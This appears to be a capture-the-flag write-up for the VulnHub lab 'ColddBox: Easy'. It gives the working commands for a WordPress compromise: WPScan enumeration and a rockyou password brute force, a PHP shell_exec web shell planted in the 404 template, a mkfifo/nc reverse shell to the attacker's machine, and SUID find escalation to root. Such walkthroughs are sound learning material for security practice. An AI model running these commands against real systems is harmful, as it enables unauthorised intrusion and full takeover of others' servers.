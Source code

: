 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed `80`, and a random port that turned out to be SSH (did not end up being relevant).
3. On port `80` was a wordpress site. I ran `wp-scan` and got a list of users via `-e u`
4. Feeding these users and `rockyou.txt` back into `wp-scan` (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user `c0ldd`
5. Via this user/password, I logged into the admin portal and customised the `404.php` template with a one liner web shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`

With this, accessing `?p=1337&e=ls` would list files, so I had rce. I found there was `/hidden` path this way, but it didn't matter by this point.
The user was `www-data`, as usual. While messing with my reverse shell shenanigans, I also established step 7 at this point.

6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.
9. There was a user flag, and root flag, both readable at this point (Er, but in spanish or something similar, after base64 decoding :)

And that's all she wrote!
